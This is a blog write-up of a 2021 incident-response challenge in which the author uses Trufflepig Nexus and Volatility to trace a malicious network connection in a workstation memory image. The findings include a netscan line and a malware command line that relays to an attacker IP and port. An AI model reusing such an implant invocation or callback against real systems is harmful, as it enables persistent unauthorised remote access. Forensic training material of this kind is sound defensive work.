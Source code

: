 ```yaml
---
title: ACSC BSides IR Challenge 2021 - 08 - Alternate Persistence
weight: 8
---
```


## Alternate Persistence
> If things weren't bad enough, ALIEN have identified odd connections originating on the network. Seems that the actor has still a few tricks to retain access...

For this bit we are moving away from disk artefacts and we use the memory image that has been provided under `workstation1.alien.local-memory`. Wanted to run through each question and do in both Nexus and in Volatility to see the differences (where possible and where I knew where to look). I find memory forensics really fun and its a great way to see what malware is doing once it is unpacked in memory.

**Note: See <a href="{{ site.baseurl }}/ACSC-BSides-IR-Challenge-2021-Setup/" target="_blank">this page </a>for tool set up and explanations.**

### AP-1
<h5>There have been some odd connections out to the malicious IP from the actor’s new target. What ip and port is the actor using? Flag format: IP:PORT</h5>

Our actor IP address we know about is 13.54.35.87. I actually flagged this in the Initial Access write up while using Trufflepig Nexus. This was really easy to find.

1. From the left hand menu choose "NetworkConnection".
2. Click on the search icon.
3. Add a field for Remote Address equals 13.54.35.87.

   ![Network connections in trufflepig Nexus]({{site.baseurl}}/assets/images/posts/AP-1.png)

<h5>Flag: 13.54.35.87:5555</h5>

Did this in volatility too
```
.local/bin/vol -f "/mnt/f/ACSC/ACSC_IR_Challenge_2021/artefacts/workstation1.alien.local-memory/memory.raw" netscan
```
Reviewing the output and we see this line:
```
0xac81949e9930  TCPv4   10.1.1.182      52763   13.54.35.87     5555    ESTABLISHED     32      PSclient.exe    2021-04-06 01:02:26.000000
```

### AP-2
<h5>Where is the binary associated with this malicious network connection, which we will call sample 4, executed from? Flag Format: c:\a\file\path</h5>

1. Select Process from the menu on the left.
2. Search for command line containing "5555".

```
Process:	32 | PSclient.exe
Parent Process:	4076 | wsmprovhost.exe
Name:	PSclient.exe
Command Line:	"C:/Users/Public/PSclient.exe" -autorestart -relayserver 13.54.35.87:5555
PID:	32
PPID:	4076
Start Time:	2021-04-06T01:02:26.568Z
```
